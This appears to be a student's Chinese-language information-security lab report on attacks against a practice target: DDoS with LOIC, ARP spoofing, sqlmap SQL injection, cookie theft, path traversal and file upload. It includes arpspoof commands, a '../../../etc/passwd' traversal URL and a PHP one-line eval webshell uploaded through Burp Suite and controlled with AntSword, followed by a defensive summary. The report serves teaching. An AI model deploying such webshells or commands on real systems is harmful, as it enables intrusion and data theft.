#  信息安全综合实验报告 - 实验2：Web服务器注入与一句话木马控制

## 1. 实验项目

- 实验名称：Web服务器注入与一句话木马控制
- 实验班级：信息安全综合实验
- 实验地点：Linux虚拟机 + Windows客户端
- 实验时间：2026年3月20日
- 指导教师：

## 2. 实验目的

1. 了解常见网络服务器攻击手段（DDOS、ARP欺骗、SQL注入、Cookie攻击、文件包含、不安全上传下载）。
2. 掌握Web渗透测试流程与工具（LOIC、dsniff、sqlmap、Burp Suite、AntSword）。
3. 学习基础防御策略与安全维护措施。 
4. 培养安全意识和风险识别能力。

## 3. 实验内容

- 课时一：DDOS攻击与ARP欺骗
- 课时二：SQL注入过程
- 课时三：Cookie攻击与文件包含漏洞
- 课时四：不安全上传下载与一句话木马

---

## 4. 实验过程（4个课时）

### 课时一 DDOS攻击和ARP欺骗

#### 一、DDOS攻击的基本概念

### 1.1 什么是DDOS攻击

DDOS（Distributed Denial of Service，分布式拒绝服务）攻击是一种常见的网络攻击方式：
- 攻击者利用多个攻击源同时向目标服务器发送大量请求
- 目标服务器资源耗尽，无法正常提供服务
- 合法用户无法访问，服务中断

### 1.2 DDOS攻击特点

- 攻击流量来源分散
- 难以追踪和阻断
- 对带宽、CPU、内存压力大

## 二、LOIC工具的安装与配置

LOIC（Low Orbit Ion Cannon）是用于模拟DDOS攻击的工具：

- 下载地址：公开GitHub或测试网络资源
- 配置参数：目标IP、目标端口、线程数、协议（TCP/UDP/HTTP）

### 2.1 实验截图、


*图1：本机网络配置*



*图2：IP与网关信息*



*图3：LOIC工具配置*


## 三、DDOS攻击实验过程

### 3.1 攻击前



*图4：攻击前服务器正常状态*

### 3.2 发起攻击

使用LOIC向目标服务器发起高并发请求，观察CPU、内存和响应变化。

### 3.3 攻击后



*图5：攻击后表现*

结果：服务器响应变慢或无响应，CPU/内存激增，网络流量异常。

## 四、ARP欺骗

### 4.1 什么是ARP欺骗

ARP欺骗是一种中间人攻击，通过伪造ARP应答让受害者的ARP缓存映射到攻击者。

### 4.2 dsniff安装与使用

- 安装：sudo apt-get install dsniff
- 工具：arpspoof、dnsspoof、urlsnarf等

### 4.3 启用IP转发

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 4.4 发起ARP欺骗

```bash
arpspoof -i eth0 -t 目标IP -r 网关IP
```

### 4.5 实验结果



*图6：ARP欺骗结果*

结果说明：目标流量经过攻击者，可嗅探Http内容等敏感数据。

---

### 课时二 SQL注入过程

#### 一、SQL与SQL注入

### 1.1 什么是SQL

SQL是关系数据库的查询语言，用于数据查询、插入、更新、删除等。

### 1.2 什么是SQL注入

SQL注入是通过构造恶意输入，使数据库执行攻击者控制的SQL语句。

## 二、靶场布置

- 部署PHP+MySQL环境
- 导入带漏洞的Web程序
- 确认本地可访问



*图1：靶场配置完成*

## 三、sqlmap使用

### 3.1 安装（从官网下载）

1. 访问sqlmap官网：https://sqlmap.org/ 或 https://github.com/sqlmapproject/sqlmap
2. 下载最新稳定压缩包（zip/tar.gz）
3. 解压到本地目录
4. 运行：
```
cd sqlmap
python sqlmap.py -h
```

（本次实验为官网下载安装，未使用git克隆）

### 3.2 注入测试

- 获取DB：--dbs
- 获取表：-D 数据库 --tables
- 获取列：-D 数据库 -T 表 --columns
- dump数据：--dump

### 3.3 实验截图
获取tables信息

得到tables信息

获取users表信息

查询username和password信息

查询user表

sql盲注

信息获取


### 3.4 小结

成功通过sqlmap获取数据库表结构和敏感账号数据，验证SQL注入风险。

---

### 课时三 Cookie攻击与文件包含漏洞

#### 一、Cookie概念与攻击

### 1.1 Cookie是什么

- 客户端存储
- 用于会话管理和身份验证
- 可设置HttpOnly/Secure属性

### 1.2 Cookie攻击方式

- XSS窃取Cookie
- 中间人获取Cookie
- 会话固定/会话劫持

## 二、浏览器修改与注入
因为输入框限制为20，为了注入非法代码，需要修改为2000。




## 三、登录、注入与Cookie采集

实验流程：先初始化靶场，后根据测试结果修改页面和注入点，然后最后进行登录验证并获取Cookie数据。










## 四、文件包含漏洞

### 4.1 概念

- LFI：本地文件包含
- RFI：远程文件包含

### 4.2 利用（先测试路径遍历）

实验先测试 `../` 路径遍历，发现文件包含漏洞存在（与后续一句话木马独立）。

```
http://target.com/page.php?file=../../../etc/passwd
```

发现漏洞后记录，后续再进行木马上传与远程控制。



### 课时四 不安全上传下载与一句话木马

#### 一、不安全上传下载概念

### 1.1 不安全上传

- 文件类型检查不足
- 存放web目录可被执行
- 可能上传一句话木马

### 1.2 不安全下载

- 缺少路径控制
- 可下载敏感文件(如index.php、防火墙日志)

## 二、不安全下载获取信息







## 三、Burp Suite与木马上传





### 3.1 一句话木马

本次实验实际脚本为：
```php
<?php @eval($_POST['a']);?>
```

### 3.2 流程说明

在网站先尝试上传其他文件；通过Burp Suite拦截上传请求，将上传文件内容修改为一句话木马；发送请求；
然后在虚拟机端使用蚁剑（AntSword）连接该web后门；成功后可浏览主机文件目录并查看IP信息。

### 3.3 测试与控制






## 四、安全防御总结

1. SQL注入：使用参数化查询、输入过滤、WAF
2. Cookie攻击：HttpOnly/Secure、同源策略、会话超时
3. 文件包含：禁止远程包含、路径白名单、最小权限
4. 文件上传：内容检测、存储隔离、禁止执行
5. DDoS/ARP：启用防火墙、网络隔离、ARP检测

---

## 7. 实验总结

### 7.1 结果回顾

- 课时一：验证DDOS与ARP欺骗过程，掌握基于LOIC与arpspoof的基础渗透流程。
- 课时二：完成靶场初始化，使用官网sqlmap获取数据库信息并验证多种注入类型。
- 课时三：先执行路径遍历(`../`)发现文件包含漏洞，后进行登录与Cookie采集；补充钓鱼链接窃取流程。
- 课时四：通过不安全下载获取index.php后，使用Burp Suite拦截上传并注入一句话木马（`<?php @eval($_POST['a']);?>`），通过AntSword连接后门获得主机目录和IP信息。

### 7.2 实验收获

- 实验流程明确：初始化→测试漏洞→利用→结果验证。
- 网络层攻击与应用层漏洞均已覆盖，理解风险与防御匹配关系。
- 动手能力提升：成功在环境中完成渗透与提权模拟。

### 7.3 建议与改进

- 增加“实验风险与安全防护建议”表格：便于结论提炼。
- 进一步补充“日志分析与取证过程”，为后续攻防对抗提供依据。
- 形成“漏洞复现步骤清单”，提高实验可复现性。

